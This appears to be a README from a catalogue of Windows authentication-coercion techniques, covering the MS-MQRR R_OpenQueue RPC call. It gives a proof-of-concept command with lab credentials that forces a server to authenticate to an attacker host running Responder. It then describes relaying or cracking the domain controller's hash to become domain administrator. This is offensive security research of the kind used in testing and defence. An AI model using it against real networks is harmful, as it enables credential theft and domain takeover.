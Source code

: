 # MS-MQRR - Remote call to R_OpenQueue (opnum 2)

## Summary

+ **Protocol**: [[MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1)

+ **Protocol UUID**: 1a9134dd-7b39-45ba-ad88-44d01ca47f28

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`R_OpenQueue`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/b4b3001c-f2ff-4a17-9830-7b21af371dc4)

+ **Function operation number**: `2`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-MQRR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) protocol (with uuid `1a9134dd-7b39-45ba-ad88-44d01ca47f28` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-MQRR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1) and allows to call RPC functions of this protocol. We will then call the remote [`R_OpenQueue`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/b4b3001c-f2ff-4a17-9830-7b21af371dc4) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_OpenQueue('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
void R_OpenQueue(
   [in] handle_t hBind,
   [in] QUEUE_FORMAT* pQueueFormat,
   [in] DWORD dwAccess,
   [in] DWORD dwShareMode,
   [in] GUID* pClientId,
   [in] LONG fNonRoutingServer,
   [in] unsigned char Major,
   [in] unsigned char Minor,
   [in] USHORT BuildNumber,
   [in] LONG fWorkgroup,
   [out] QUEUE_CONTEXT_HANDLE_SERIALIZE* pphContext
 );
```

## References

+ Documentation of protocol [MS-MQRR]: Message Queuing (MSMQ): Queue Manager Remote Read Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/9edbc8fa-02ad-4c79-804f-6bb8f430aac1

+ Documentation of function `R_OpenQueue`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-mqrr/b4b3001c-f2ff-4a17-9830-7b21af371dc4